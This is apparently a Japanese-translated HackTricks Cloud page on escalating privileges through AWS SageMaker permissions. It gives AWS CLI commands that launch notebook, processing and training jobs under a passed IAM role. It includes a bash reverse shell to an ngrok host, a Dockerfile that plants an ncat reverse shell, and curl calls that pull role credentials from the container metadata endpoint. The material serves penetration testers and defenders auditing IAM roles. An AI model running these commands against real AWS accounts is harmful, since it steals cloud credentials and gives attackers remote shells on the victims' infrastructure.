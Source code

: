 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAMロールを使用してノートブックを作成し始めます。
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
レスポンスには、作成されたノートブックインスタンスのARNを含む`NotebookInstanceArn`フィールドが含まれるべきです。次に、`create-presigned-notebook-instance-url` APIを使用して、ノートブックインスタンスが準備完了した際にアクセスするためのURLを生成できます：
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
ブラウザでURLに移動し、右上の\`Open JupyterLab\`をクリックし、次に「Launcher」タブまでスクロールし、「Other」セクションの下にある「Terminal」ボタンをクリックします。

これで、IAMロールのメタデータ資格情報にアクセスすることが可能です。

**潜在的な影響:** 指定されたsagemakerサービスロールへの権限昇格。

### `sagemaker:CreatePresignedNotebookInstanceUrl`

もしJupyter **ノートブックがすでに実行中**であり、`sagemaker:ListNotebookInstances`を使用してそれらをリストできる場合（または他の方法で発見できる場合）、それらのためのURLを**生成し、アクセスし、前の技術で示されたように資格情報を盗むことができます**。
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**潜在的な影響:** 添付されたsagemakerサービスロールへの権限昇格。

### `sagemaker:CreateProcessingJob,iam:PassRole`

その権限を持つ攻撃者は、**sagemakerに処理ジョブを実行させる**ことができます。攻撃者は、**AWS管理ECSアカウントインスタンス**で実行されるコンテナの定義を指定し、**添付されたIAMロールの資格情報を盗む**ことができます。
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**潜在的な影響:** 指定されたsagemakerサービスロールへの権限昇格。

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

その権限を持つ攻撃者は、**任意のコンテナを実行する**トレーニングジョブを作成でき、**ロールが添付された**状態になります。したがって、攻撃者はロールの資格情報を盗むことができます。

{% hint style="warning" %}
このシナリオは、前のものよりも悪用が難しいです。なぜなら、攻撃者に直接revシェルや資格情報を送信するDockerイメージを生成する必要があるからです（トレーニングジョブの設定で開始コマンドを指定することはできません）。
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**潜在的影響:** 指定されたsagemakerサービスロールへの権限昇格。

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

その権限を持つ攻撃者は（潜在的に）**ハイパーパラメータトレーニングジョブ**を作成し、**それに任意のコンテナを実行**し、**それにロールを添付**することができるでしょう。\
_時間がなかったため、私はこれを悪用していませんが、以前の悪用と似ているように見えます。悪用の詳細を含むPRを送信しても構いません。_

## 参考文献

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
